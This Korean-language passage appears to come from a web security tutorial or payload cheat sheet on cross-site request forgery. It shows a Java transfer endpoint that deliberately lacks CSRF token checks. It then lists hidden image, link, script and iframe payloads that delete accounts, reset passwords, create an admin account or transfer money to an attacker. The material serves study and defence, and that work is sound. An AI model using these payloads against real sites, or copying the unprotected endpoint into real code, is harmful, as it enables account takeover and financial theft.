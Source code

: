 #### 취약한 송금 기능 (Java):
```java
@PostMapping("/transfer")
public String transferMoney(@RequestParam int toAccount, 
                          @RequestParam double amount, 
                          HttpSession session) {
    int fromAccount = (Integer) session.getAttribute("userId");
    
    // CSRF 토큰 검증 없이 바로 실행
    bankService.transfer(fromAccount, toAccount, amount);
    return "Transfer completed";
}
```

---

## 2. 기본 페이로드

### 2.1. GET 기반 CSRF 공격

#### 2.1.1. 이미지 태그를 이용한 공격
```html

<img src="http://target.com/delete_account?confirm=yes" width="0" height="0">


<img src="http://target.com/change_password?new_password=hacked123" style="display:none">


<img src="http://target.com/admin/create_user?username=attacker&password=pass123&role=admin" hidden>


<img src="http://target.com/settings?email=attacker@evil.com&notifications=off">
```

#### 2.1.2. 링크를 이용한 공격
```html

<a href="http://target.com/transfer?to=attacker&amount=1000">
    무료 상품 받기! 클릭하세요!
</a>


<script>
    window.location.href = "http://target.com/logout";
</script>


<iframe src="http://target.com/delete_post?id=123" width="0" height="0" style="display:none"></iframe>
```

